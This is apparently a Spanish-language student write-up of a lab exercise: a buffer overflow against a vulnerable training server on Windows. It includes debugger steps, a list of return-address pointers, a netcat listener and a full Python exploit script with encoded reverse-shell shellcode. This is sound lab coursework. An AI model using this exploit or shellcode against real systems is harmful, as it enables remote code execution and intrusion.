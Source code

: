 ```yaml
---
title: (M.IET-CS) Tarea
date: 2024-11-03 20:12:00 -05:00
categories: [pentesting]
tags: [nmap, kali, metasploit]
---
```


## **Desarrollo de la Actividad**

### **Requerimientos.**
- El objetivo principal de esta tarea consiste en revisar si cada una de esas direcciones restantes es vulnerable y permite realizar el buffer overflow que, por consecuencia, permita ejecutar el exploit y obtener una shell por conexión tcp reversa.
- Como segundo objetivo, el alumno debe de explicar en su procedimiento ¿qué es una conexión tcp reversa? Utilizar un gráfico relacionado a su setup de laboratorio (VM Kali vs VM Windows, VM Kali vs Host Windows) y desarrollar la explicación correspondiente.
- Una vez que obtiene la conexión tcp reversa (suficiente con utilizar una de las direcciones de retorno que permite una exitosa ejecución del exploit), investigar los permisos de la shell (es decir, del usuario que ejecuta aquella shell).

----

En el Immunity Debugger, ejecutar !mona modules en el prompt de comandos.

![tarea](/assets/images/tarea/0.png)

![tarea](/assets/images/tarea/1.png)

Notamos 9 pointers:

![tarea](/assets/images/tarea/2.png)

```bash
#pointers in little endian format                                 
pointer= "\xaf\x11\x50\x62"    #625011af
pointer= "\xbb\x11\x50\x62"    #625011bb       
pointer= "\xc7\x11\x50\x62"    #625011c7       
pointer= "\xd3\x11\x50\x62"    #625011d3       
pointer= "\xdf\x11\x50\x62"    #625011df       
pointer= "\xeb\x11\x50\x62"    #625011eb       
pointer= "\xf7\x11\x50\x62"    #625011f7       
pointer= "\x03\x12\x50\x62"    #62501203       
pointer= "\x05\x12\x50\x62"    #62501205       
```

Aperturamos el puerto 4444
```bash
nc -lvnp 4444
```

![tarea](/assets/images/tarea/3.png)
![tarea](/assets/images/tarea/4.png)

Monitoreamos el puerto con watch:
```bash
watch -n 1 "netstat -an | grep 4444"
```

![tarea](/assets/images/tarea/5.png)

Generamos la cadena de buff:

![tarea](/assets/images/tarea/6.png)


Usamos el siguiente Script para validar la conexión por cada pointer:

```python
#!/usr/bin/python
import sys, socket

overflow = (
"\xdb\xcf\xbe\x97\xdb\x6b\x1e\xd9\x74\x24\xf4\x58\x31\xc9"
"\xb1\x52\x31\x70\x17\x03\x70\x17\x83\x57\xdf\x89\xeb\xab"
"\x08\xcf\x14\x53\xc9\xb0\x9d\xb6\xf8\xf0\xfa\xb3\xab\xc0"
"\x89\x91\x47\xaa\xdc\x01\xd3\xde\xc8\x26\x54\x54\x2f\x09"
"\x65\xc5\x13\x08\xe5\x14\x40\xea\xd4\xd6\x95\xeb\x11\x0a"
"\x57\xb9\xca\x40\xca\x2d\x7e\x1c\xd7\xc6\xcc\xb0\x5f\x3b"
"\x84\xb3\x4e\xea\x9e\xed\x50\x0d\x72\x86\xd8\x15\x97\xa3"
"\x93\xae\x63\x5f\x22\x66\xba\xa0\x89\x47\x72\x53\xd3\x80"
"\xb5\x8c\xa6\xf8\xc5\x31\xb1\x3f\xb7\xed\x34\xdb\x1f\x65"
"\xee\x07\xa1\xaa\x69\xcc\xad\x07\xfd\x8a\xb1\x96\xd2\xa1"
"\xce\x13\xd5\x65\x47\x67\xf2\xa1\x03\x33\x9b\xf0\xe9\x92"
"\xa4\xe2\x51\x4a\x01\x69\x7f\x9f\x38\x30\xe8\x6c\x71\xca"
"\xe8\xfa\x02\xb9\xda\xa5\xb8\x55\x57\x2d\x67\xa2\x98\x04"
"\xdf\x3c\x67\xa7\x20\x15\xac\xf3\x70\x0d\x05\x7c\x1b\xcd"
"\xaa\xa9\x8c\x9d\x04\x02\x6d\x4d\xe5\xf2\x05\x87\xea\x2d"
"\x35\xa8\x20\x46\xdc\x53\xa3\x63\x21\x59\x3a\x1c\x23\x5d"
"\x2d\x80\xaa\xbb\x27\x28\xfb\x14\xd0\xd1\xa6\xee\x41\x1d"
"\x7d\x8b\x42\x95\x72\x6c\x0c\x5e\xfe\x7e\xf9\xae\xb5\xdc"
"\xac\xb1\x63\x48\x32\x23\xe8\x88\x3d\x58\xa7\xdf\x6a\xae"
"\xbe\xb5\x86\x89\x68\xab\x5a\x4f\x52\x6f\x81\xac\x5d\x6e"
"\x44\x88\x79\x60\x90\x11\xc6\xd4\x4c\x44\x90\x82\x2a\x3e"
"\x52\x7c\xe5\xed\x3c\xe8\x70\xde\xfe\x6e\x7d\x0b\x89\x8e"
"\xcc\xe2\xcc\xb1\xe1\x62\xd9\xca\x1f\x13\x26\x01\xa4\x23"
"\x6d\x0b\x8d\xab\x28\xde\x8f\xb1\xca\x35\xd3\xcf\x48\xbf"
"\xac\x2b\x50\xca\xa9\x70\xd6\x27\xc0\xe9\xb3\x47\x77\x09"
"\x96")

shellcode = "A"*2003 + "\xaf\x11\x50\x62" + "\x90"*32 + overflow
ip_address ='10.0.2.15'

try:
    s = socket.socket(socket.AF_INET, socket.SOCK_STREAM)
    s.connect((ip_address, 9999))
    s.send(('TRUN /.:/' + shellcode))
    s.close()
except:
    print("Error al conectar con el servidor")
    sys.exit()
```

Reemplazamos esta sección de código del shellcode por cada pointer, de la lista anterior proporcionada.

![tarea](/assets/images/tarea/7.png)

Verificamos la conexión

![tarea](/assets/images/tarea/8.png)
![tarea](/assets/images/tarea/10.png)

Los pointers 1 al 7 han realizado la conexión, los pointers 8 y 9, no se conectaron.




